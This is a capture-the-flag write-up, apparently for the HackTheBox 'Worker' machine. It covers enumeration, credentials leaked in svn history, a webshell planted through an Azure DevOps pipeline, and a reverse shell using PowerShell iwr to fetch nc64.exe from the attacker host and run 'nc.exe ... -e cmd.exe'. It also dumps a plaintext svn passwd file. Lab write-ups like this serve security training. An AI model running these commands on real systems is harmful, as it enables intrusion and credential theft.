# Worker
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.203 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 18:39 BST
Nmap scan report for 10.10.10.203 (10.10.10.203)
Host is up (0.098s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3690/tcp open  svn
5985/tcp open  wsman
```
```
└─$ nmap -Pn -p80,3690,5985 -sC -sV 10.10.10.203 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-10 18:42 BST
Nmap scan report for 10.10.10.203 (10.10.10.203)
Host is up (0.12s latency).

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.87 seconds
```

- Web server



- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.203/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,asp,aspx --no-error   
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.203/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,asp,aspx
[+] Timeout:                 10s
===============================================================
2023/09/10 18:47:29 Starting gobuster in directory enumeration mode
===============================================================
===============================================================
2023/09/10 18:48:34 Finished
===============================================================

```

## Foothold
- We have `svn` on port `3690`
  - https://book.hacktricks.xyz/network-services-pentesting/3690-pentesting-subversion-svn-server

```
└─$ svn log svn://10.10.10.203
------------------------------------------------------------------------
r5 | nathen | 2020-06-20 14:52:00 +0100 (Sat, 20 Jun 2020) | 1 line

Added note that repo has been migrated
------------------------------------------------------------------------
r4 | nathen | 2020-06-20 14:50:20 +0100 (Sat, 20 Jun 2020) | 1 line

Moving this repo to our new devops server which will handle the deployment for us
------------------------------------------------------------------------
r3 | nathen | 2020-06-20 14:46:19 +0100 (Sat, 20 Jun 2020) | 1 line

-
------------------------------------------------------------------------
r2 | nathen | 2020-06-20 14:45:16 +0100 (Sat, 20 Jun 2020) | 1 line

Added deployment script
------------------------------------------------------------------------
r1 | nathen | 2020-06-20 14:43:43 +0100 (Sat, 20 Jun 2020) | 1 line

First version
------------------------------------------------------------------------
```
- Let's download the repo

```
└─$ svn checkout svn://10.10.10.203
A    dimension.worker.htb
A    dimension.worker.htb/LICENSE.txt
A    dimension.worker.htb/README.txt
A    dimension.worker.htb/assets
A    dimension.worker.htb/assets/css
A    dimension.worker.htb/assets/css/font
...
```
```
└─$ ls -lha
total 20K
drwxr-xr-x  4 kali kali 4.0K Sep 10 18:58 .
drwxr-xr-x 19 kali kali 4.0K Sep 10 18:58 ..
drwxr-xr-x  4 kali kali 4.0K Sep 10 18:58 dimension.worker.htb
-rw-r--r--  1 kali kali  162 Sep 10 18:58 moved.txt
drwxr-xr-x  4 kali kali 4.0K Sep 10 18:58 .svn
```

- If we check `moved.txt`
```
└─$ cat moved.txt          
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```

- We also saw `r2` commit from the logs about `Added deployment script`
  - We could have a creds there
  - But I'll start from the `r1`
```
└─$ svn up -r1
Updating '.':
D    moved.txt
Updated to revision 1.
```
```
└─$ svn up -r2
Updating '.':
A    deploy.ps1
Updated to revision 2.
```
- We have creds in `deploy.ps1`
  - But they don't work for `winrm`
```
└─$ cat deploy.ps1      
$user = "nathen" 
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

- Let's check other `vhosts`
```
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.10.203 -H 'Host: FUZZ.worker.htb' --hh 703
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.203/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000296:   200        170 L    542 W      6495 Ch     "alpha"
000007691:   200        355 L    1408 W     16045 Ch    "story"
000022566:   401        85 L     329 W      20028 Ch    "devops"
000023339:   200        397 L    1274 W     14803 Ch    "cartoon"
000023462:   200        111 L    398 W      4971 Ch     "lens"
000024714:   200        368 L    1173 W     14588 Ch    "dimension"
000037212:   400        6 L      26 W       334 Ch      "*"
000071250:   200        274 L    871 W      10134 Ch    "twenty"  
```

- Add all of them to `/etc/hosts`
  - `10.10.10.203 worker.htb alpha.worker.htb story.worker.htb devops.worker.htb cartoon.worker.htb lens.worker.htb dimension.worker.htb twenty.worker.htb`

- `dimension.worker.htb`
  - It shows other `vhosts`




- If we visit `devops.worker.htb` we have to authenticate
  - Using the creds `nathen:wendel98` from `svn` works




- We have repos and pipelines for `vhosts` we saw in `dimension.worker.htb`




- We can check any `pipeline`
  - Looks like they copy source files from `build` to `w:\sites\<repository_name>.worker.htb`


- We can click `Queue` and start the build


- The plan is to upload a webshell and start the build
  - But we can't upload files directly to `master` branch


- We can try creating a new branch and build it






- Now let's build it


- After a few minutes we have our webshell



- Let's get the reverse shell
  - First we download `nc` via `powershell -c iwr  10.10.16.9/nc64.exe -outfile \programdata\nc.exe`
  - Then `c:\programdata\nc.exe 10.10.16.9 6666 -e cmd.exe`


## User
- `c:\users`
```
c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 32D6-9041

 Directory of c:\Users

2020-07-07  17:53    <DIR>          .
2020-07-07  17:53    <DIR>          ..
2020-03-28  15:59    <DIR>          .NET v4.5
2020-03-28  15:59    <DIR>          .NET v4.5 Classic
2020-08-18  00:33    <DIR>          Administrator
2020-03-28  15:01    <DIR>          Public
2020-07-22  01:11    <DIR>          restorer
2020-07-08  19:22    <DIR>          robisl
               0 File(s)              0 bytes
               8 Dir(s)  10�486�476�800 bytes free

```

- `whoami`
```
c:\>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

c:\>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group

```

- We have `SeImpersonatePrivilege`
  - We can run `Potato` and get the root
  - But I will skip it
- Let's also check `W:` drive we saw in pipelines
  - We can run `wmic logicaldisk get deviceid, volumename, description`
  - Or `powershell -c get-psdrive -psprovider filesystem`
```
c:\>powershell -c get-psdrive -psprovider filesystem
powershell -c get-psdrive -psprovider filesystem

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
C                  19,63          9,77 FileSystem    C:\                                                               
W                   2,52         17,48 FileSystem    W:\                                                               
```

- Let's navigate there
```
c:\>w:
w:

W:\>dir
dir
 Volume in drive W is Work
 Volume Serial Number is E82A-AEA8

 Directory of W:\

2020-06-16  18:59    <DIR>          agents
2020-03-28  15:57    <DIR>          AzureDevOpsData
2020-04-03  11:31    <DIR>          sites
2020-06-20  16:04    <DIR>          svnrepos
               0 File(s)              0 bytes
               4 Dir(s)  18�768�273�408 bytes free

```

- We have `sites` folder we saw
  - Other folder have nothing interesting
  - Except for `svnrepos` 

```
W:\>dir svnrepos
dir svnrepos
 Volume in drive W is Work
 Volume Serial Number is E82A-AEA8

 Directory of W:\svnrepos

2020-06-20  16:04    <DIR>          .
2020-06-20  16:04    <DIR>          ..
2020-06-20  11:29    <DIR>          www
               0 File(s)              0 bytes
               3 Dir(s)  18�768�273�408 bytes free

W:\>dir svnrepos\www
dir svnrepos\www
 Volume in drive W is Work
 Volume Serial Number is E82A-AEA8

 Directory of W:\svnrepos\www

2020-06-20  11:29    <DIR>          .
2020-06-20  11:29    <DIR>          ..
2020-06-20  15:30    <DIR>          conf
2020-06-20  15:52    <DIR>          db
2020-06-20  11:29                 2 format
2020-06-20  11:29    <DIR>          hooks
2020-06-20  11:29    <DIR>          locks
2020-06-20  11:29               251 README.txt
               2 File(s)            253 bytes
               6 Dir(s)  18�768�273�408 bytes free

```

- The `conf` folder contains `passwd` file
```
W:\svnrepos\www>dir conf
dir conf
 Volume in drive W is Work
 Volume Serial Number is E82A-AEA8

 Directory of W:\svnrepos\www\conf

2020-06-20  15:30    <DIR>          .
2020-06-20  15:30    <DIR>          ..
2020-06-20  11:29             1�112 authz
2020-06-20  11:29               904 hooks-env.tmpl
2020-06-20  15:27             1�031 passwd
2020-04-04  20:51             4�454 svnserve.conf
               4 File(s)          7�501 bytes
               2 Dir(s)  18�768�273�408 bytes free

```
```
W:\svnrepos\www\conf>type passwd
type passwd
### This file is an example password file for svnserve.
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday

```

- We see `nathen` user with the password we used
  - Also we have another user from the box `robisl:wolves11`
  - If we check his groups, he can `winrm`
  - Let's try his creds
```
W:\svnrepos\www\conf>net user robisl
net user robisl
User name                    robisl
Full Name                    Robin Islip
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2020-04-05 21:27:26
Password expires             Never
Password changeable          2020-04-05 21:27:26
Password required            No
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2020-08-03 12:41:02

Logon hours allowed          All

Local Group Memberships      *Production           *Remote Management Use
Global Group memberships     *None                 
The command completed successfully.

```

- And have our shell



## Root
- Nothing interesting
  - Let's check `devops.worker.htb` using `robisl`'s creds
  - It worked and he has different project


- The project has no pipelines
  - Single repo
  - And no branches


- But `robisl` is a `Build Adminsitrator`


- So we can create a [pipeline](https://learn.microsoft.com/en-us/azure/devops/pipelines/policies/permissions?view=azure-devops)








